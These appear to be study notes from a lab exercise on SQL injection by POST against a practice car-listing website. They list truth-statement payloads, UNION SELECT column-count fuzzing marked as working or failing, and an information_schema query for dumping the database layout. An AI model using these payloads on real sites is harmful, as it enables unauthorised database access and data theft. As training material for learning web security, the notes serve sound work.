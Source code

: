 
### Practice Website (cars SQL)

http://10.50.21.144/Union.html

## SQL Injection - POST Method

#### Steps:
##### 0. Behavior analyis (use the website!)
- Only valid values will display information from the table on a webpage

##### 1. Determine vulernable webpage via truth statement
- generic truth statement (POST)
- `Ford' or 1='1`		#didnt work
- `Ford' or 1='1;`		#didnt work
- `Ford' or 1='1; #`		#didnt work
- `Ford' or 1='1; --`		#didnt work

((for the sake of time, the other variations with the other cars also didnt work. in practice, test these!))

- `Audi' or 1='1; --` 		#WORKED!

##### 2. Determine the number of clomuns that exist on the webpage via fuzzing
- Rows: 5
- Columns: 4 <---- lowest

	**We start with the lowest number and slowly move up higher!!!**
	
- `Audi' or 1='1;`

- `'Audi' UNION select 1,2,3,4`		#nope
- `Audi' UNION select 1,2,3,4;`		#nope
- `Audi' UNION select 1,2,3,4; #`	#nope
- `Audi' UNION select 1,2,3,4; --`	#nope

- `'Audi' UNION select 1,2,3,4,5`	#nope
- `Audi' UNION select 1,2,3,4,5;`	#nope
- `Audi' UNION select 1,2,3,4,5; #`	#WORKS!
- `Audi' UNION select 1,2,3,4,5; --`	#nope

##### 3. Determine the number of columns, the order, and if there are any hidden columns

- Columns: 5
- Display Order: 1,3,4,5
- Hidden: 2 (as in column 2)

##### 4. Dumping/Extracting information via Golden Statement

The golden statement:
- `SELECT table_schema,table_name,column_name FROM information_schema.columns`
